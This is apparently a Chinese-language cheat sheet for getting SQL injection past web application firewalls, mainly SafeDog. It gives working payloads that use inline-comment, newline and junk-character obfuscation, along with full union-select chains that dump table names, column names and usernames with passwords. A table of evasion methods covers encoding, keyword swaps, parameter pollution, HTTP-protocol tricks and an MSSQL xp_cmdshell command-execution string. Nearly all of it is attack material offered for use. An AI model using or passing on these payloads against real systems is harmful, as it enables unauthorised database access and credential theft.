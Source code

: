 最新版\
1、安全狗and的绕过（防止and和or的注入）\
将and修改为/*!12345and*/ ps:12345是任意的5位数字\
通过bp进行拦截，发送到intruder模块，进行爆破找特征值 返回结果正常即是可以被正常绕过\
4-6位都可以

2、安全狗order by的绕过\
order by一起出现会引发安全狗警告，要在order by之间添加一些字符\
order /*//%$*/ by 1 -- 1

3、安全狗select　union的绕过（防止联合查询）\
select和union在一起的时候会触发\
跟order by原理相同，不过需要我们用bp进行fuzz\
?id=-2' union /*/$%^*/ select 1,2,3 -- 1

4、查询数据的绕过\
database()的绕过：\
database和()放在一起的时候会触发waf\
在两者之间添加干扰符即可\
?id=-2' union /*/$%^*/ select 1,database/*////*/(),3 -- 1\
查询表的绕过：\
第一个绕过点：\
information_schema.tables\
waf会对tables进行拦截，想绕过需改成information_schema./*!tables*/\
第二个绕过点：\
from和information_schema./*!tables*/当这两个放在一起的时候会触发waf，这个时候要对from和information.schema./*!tables*/之间进行处理了\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ -- 1
绕过过程：首先在union和select之间放干扰符号，然后在from和information_schema之间放 --+以及正确的干扰符，然后通过%0a进行换行，最后对talbe进行内联\
但是还要通过where去指定对应的数据库\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ where table_name='security' -- 1\
但是information_schema和where出现在一起需要在中间添加干扰符\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ /*////*/\
where table_schema='security' -- 1  进行fuzz测试\
获取security对应表下的所有列名：\
?id=-2' union /*/$%^*/ select 1,group_concat(column_name),3 from --+/*%/ %0a\
information_schema./*!columns*/ /*////*/\
where table_schema='security' /*!12441and*/ table_name='users' -- 1\
查询数据的绕过：\
?id=-2' union /*/$%^*/ select 1,group_concat(username,0x3a,password),3 from /*////*/ users -- +

---

| 方法 |                                                                | payload |
|--------------------------------------|--------------------------------------------------------------------------------|
| 编码 |                                | 1、进行url编码（少数waf不会进行URL解码,部分waf进行一次url解码==>可对payload进行二次url编码）|
                                        | 2、Unicode编码：单引号 = %u0027、%u02b9、%u02bc |
                                        | 3、部分十六进制编码：adminuser = 0x61646D696E75736572 |
                                        | 4、SQL编码：unicode、HEX、URL、ascll、base64等 |
                                        | 5、XSS编码：HTML、URL、ASCII、JS编码、base64等 |
大小写变换                                 select=SELecT
关键字替换                                 And = &&
                                          Or = ||
                                          等于号 = like （或使用’<’ 和 ‘>’ 进行判断）
                                          if(a,b,c) = case when(A) then B else C end
                                          substr(str,1,1) = substr (str) from 1 for 1
                                          limit 1,1 = limit 1 offset 1
                                          Union select 1,2 = union select * from ((select 1)A join (select 2)B;
                                          hex()、bin() = ascii()
                                          sleep() = benchmark()
                                          concat_ws() = group_concat()
                                          mid()、substr() = substring()
                                          @@user = user()
                                          @@datadir = datadir()
特殊字符替换（空格或注释绕过）               sqlserver中：/**/、/*|%23--%23|*/ 
                                          mysql中：%0a、%0a/**/、//*!*//、#A%0a
特殊字符重写绕过                           selselectect
多请求拆分绕过                             ?a=[inputa]&b=[inputb]  ===》(参数拼接)  and a=[inputa] and b=[inputb]
参数放Cookie里面进行绕过                    $_REQUEST（获取参数，会获取GET POST COOKIE）===>  若未检测cookie，我们可以放cookie里面
使用白名单绕过                             admin dede install等目录特殊目录在白名单内
                                          URL/xxx.php?id=1 union select …… ===》
                                          1、URL/xxx.php/admin?id=1 union select……
                                          2、URL/admin/..\xxx.php?id=1 union select……
内联注释绕过                               id=1 and 1=1 ===》  id=1/*!and*/1=1
参数重写绕过                               URL/xx.php?id=1 union select  ===》
                                          URL/xx.php?id=1&id=union&id=select&id=……&id=
特殊字符拼接                               mssql中，函数里面可以用+来拼接 ?id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')       
云waf                                     ===》找真实IP
http协议绕过                              Content-Type绕过：application/x-www-form-urlencoded è multipart/form-data
                                         请求方式绕过：更换请求方法
                                         多Content-Disposition绕过：包含多个Content-Disposition时，中间件与waf取值不同 
                                         keep-alive（Pipeline）绕过：手动设置Connection:keep-alive（未断开），然后在http请求报文中构造多个请求，将恶意代码隐藏在第n个请求中，从而绕过waf
                                         修改编码方式：Charset=xxx进行绕过
 Waf检测限制绕过                          参数溢出
                                         缓冲区溢出：
                                         UnIoN SeLeCT ===》 and (select 1)=(Select 0xA*99999) UnIoN SeLeCT and 1=1 ===》 and 1=1 and 99…99999 //此处省略N多个9同网段/ssrf绕过                                       

---

1=1绕过\
'and 1=1-- -被拦截\
&符号可以绕\
'%261-- -\
'%26true-- -\
'%260-- -\
'%26false-- -\
xor可以绕\
'Xor 1-- -\
'Xor true-- -

'or length(database()=4)-- -会被ban，这样绕：\
'%26(length(database/**/())=4)-- -\
'%26(ascii(@@version)=53)-- -\
1'or -1=-1-- -\
1'or -0=-0-- -

内联注释\
1'or /*!1=1*/-- -\
或者简单粗暴点的 或者简单粗暴点的 直接绕过and和or：\
/*!11440OR*/\
/*!11440AND*/



order by绕过\
%23%0a绕过\
order%23%0aby 3\
内联注释加注释绕过\
1'/*!order /*!/*/**/by*/4-- -\
1'/*!order /*/*%/**/by*/4-- -\
1'/*!order /*!/*/**//**/by*/4-- -\
1'/*!order /*!/*/**//*/**/by*/4-- -\
同样类似上面绕过and方法\
/*!11440order*/



union select绕过\
利用内联注释和注释的混淆绕过\
1'/*!union/*!/*/**/*/select/**/1,2,'password'-- -\
/*!11440union*/\
/*!select/*!/*/**/*/


系统函数绕过\
单独的括号和函数名都不会检测，分开函数名和括号：\
version () #直接空格\
user%0a() #这个地方%0a~%20有很多，类似绕过空格\
database/**/() #注释符\
user/*!*/() #内敛注释


函数名绕过\
/*!extractvalue/*!/*/**/*/\
/*!updatexml/*!/*/**/*/

联合注入绕过方式\
这里使用mysql自带的正则函数(regexp)

select * from company_info where name like '桑尼';  //查询name等于桑尼的数据\
select * from company_info where name regexp '桑尼'; //查询结果中name包含桑尼的数据

获取详细信息\
尝试获取数据库名、版本，因database()被识别被拦截

-1' regexp "%0A%23" /*!11444union*/ %0A /*!11444select*/ 1,database(/*!11444*/),version(/*!11444*/) %23

注入出表名\
-1' union /*!--+/*%0aselect/*!1,2,*/ group_concat(schema_name) /*!from*/

/*!--+/*%0ainformation_schema./*!schemata*/ --+
